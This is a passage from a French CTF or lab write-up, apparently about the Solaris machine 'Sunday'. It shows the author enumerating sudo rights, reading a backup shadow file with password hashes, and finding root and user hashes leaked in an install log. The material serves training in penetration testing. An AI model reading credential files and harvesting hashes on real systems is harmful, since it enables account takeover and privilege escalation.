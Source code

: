 ```console
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ bash --version
GNU bash, version 3.2.25(1)-release (i386-pc-solaris2.11)
Copyright (C) 2005 Free Software Foundation, Inc.
```

Encore une bizarrerie :  

```console
sunny@sunday:/etc$ ls -l /var/adm/spellhist
-rw-rw-rw- 1 root bin 0 2009-05-14 21:18 /var/adm/spellhist
```

Finalement je trouve des hashes dans un dossier backup :  

```console
sunny@sunday:/backup$ ls -l
total 2
-r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup

sunny@sunday:/$ cat backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Si on cherche des mentions de l'utilisateur *sammy* sur le système, on en trouve dans le fichier `/var/sadm/system/logs/install_log` :  

```
<OM Apr 15 14:22:31> /sbin/install-finish  -B '/a' -R '$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD' -n 'sammy' -l 'sammy' -p '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB' -G '10' -U '101'
<ICT Apr 15 14:22:32> Starting Python script of Install Completion Tasks
<ICT Apr 15 14:22:32> BASEDIR: /a
<ICT Apr 15 14:22:32> USER_SPEC_DBGLVL:
<ICT Apr 15 14:22:32> ROOT_PW: $5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD
<ICT Apr 15 14:22:32> NU_GOS: sammy
<ICT Apr 15 14:22:32> NU_LOGIN: sammy
<ICT Apr 15 14:22:32> NU_PW: $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
<ICT Apr 15 14:22:32> NU_GID: 10
<ICT Apr 15 14:22:32> NU_UID: 101
```

Ça commence à être intéressant :)  
